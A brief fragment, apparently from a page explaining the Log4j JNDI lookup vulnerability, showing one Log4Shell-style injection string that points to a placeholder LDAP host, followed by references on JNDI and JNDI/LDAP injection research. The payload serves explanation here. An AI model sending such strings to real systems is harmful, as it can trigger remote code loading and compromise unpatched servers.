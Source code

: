```
${jndi:ldap//untrusted-ip-address:389/Run}
```

# References

* https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup
* https://logging.apache.org/log4j/2.x/manual/extending.html#Lookups
* https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface
* https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://cs.nyu.edu/~jcf/classes/g22.3033-007_sp01/handouts/g22_3033_h83.htm